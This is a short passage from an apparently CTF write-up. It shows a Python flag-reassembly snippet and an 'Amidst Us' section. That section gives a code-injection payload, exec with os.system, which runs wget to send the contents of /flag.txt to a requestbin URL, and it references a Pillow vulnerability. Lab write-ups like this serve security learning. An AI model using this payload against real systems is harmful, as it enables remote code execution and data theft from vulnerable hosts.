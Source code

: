 ```python
enc[0xe] = 'h'
enc[6] = '0'
enc[5] = 'h'
enc[10] = 'n'
enc[0x28] = 'u'
enc[9] = '1'
enc[0xc] = '_'
enc[0xf] = 'r'
enc[0x19] = 'c'
enc[0x21] = 'c'
enc[0x23] = 'n'
enc[0x1e] = 'm'
enc[0x1f] = '3'
enc[0x64] = '}'

# sort by key number
enc = sorted(enc.items(), key=lambda x: x[0])
# join
print(''.join([x[1] for x in enc]))
```

## Amidst Us
![](Pasted%20image%2020220520121644.png)

https://requestbin.io/179ya4a1
```
exec("import os;os.system('wget https://requestbin.io/179ya4a1'+'?'+'result=$(cat /flag.txt)')")
```
![](Pasted%20image%2020220520123411.png)

### Reference
https://www.youtube.com/watch?v=0ViLZ03vcew
https://github.com/python-pillow/Pillow/pull/5923
https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901